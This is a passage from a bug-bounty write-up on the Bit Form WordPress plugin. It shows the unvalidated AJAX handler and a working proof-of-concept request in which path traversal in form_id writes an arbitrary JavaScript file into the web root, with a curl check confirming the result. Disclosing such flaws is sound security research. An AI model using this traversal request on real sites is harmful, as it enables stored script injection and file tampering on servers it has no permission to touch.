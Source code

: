Hmm... Based on the method name, it seems like we could create some custom JavaScript or CSS file.

By tracing back the execution flow, we can confirm that theory:

```php
class AdminAjax
{
  public function register()
  {
    [...]
    add_action('wp_ajax_bitforms_add_custom_code', [$this, 'addCustomCode']);
    [...]
  }
  public function addCustomCode()
  {
    if (wp_verify_nonce(sanitize_text_field($_REQUEST['_ajax_nonce']), 'bitforms_save')) {
      $inputJSON = file_get_contents('php://input');
      $input = json_decode($inputJSON);
      FrontEndScriptGenerator::customCodeFile($input->form_id, $input->customCodes);
      [...]
    } else {
      [...]
    }
  }
```

Throughout the entire execution flow, there's **no validation over the `form_id` and `customCodes`**. Therefore, we can overwrite or create arbitrary JavaScript and CSS files via path traversal in `form_id`.

Let's try to create an arbitrary JavaScript file at path `/var/www/html/` by sending the following POST request:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_add_custom_code&_ajax_nonce=780bef0a26 HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 119
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724553914%7C9pNaCWccoYSDyYoiSO4e07YnorNyXoFaKEF0H5QnZkX%7C58c18d2f8b6415954d2a339d57d57b3c1fe7bc913f22130d5780f0d2a85c49f9; wp-settings-time-1=1724390118; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724553914%7C9pNaCWccoYSDyYoiSO4e07YnorNyXoFaKEF0H5QnZkX%7Cf943227a153b21afbc65dbd93c78032c2ad0055a49af9c5fedf5d1281404dbd7

{"form_id":"/../../../../../../../../../../../var/www/html/poc","customCodes":{"JavaScript":"alert(document.domain);"}}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240823141140.png)

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/stored-xss)-[2024.08.23|14:10:24(HKT)]
└> curl http://localhost/poc.js
alert(document.domain);
```
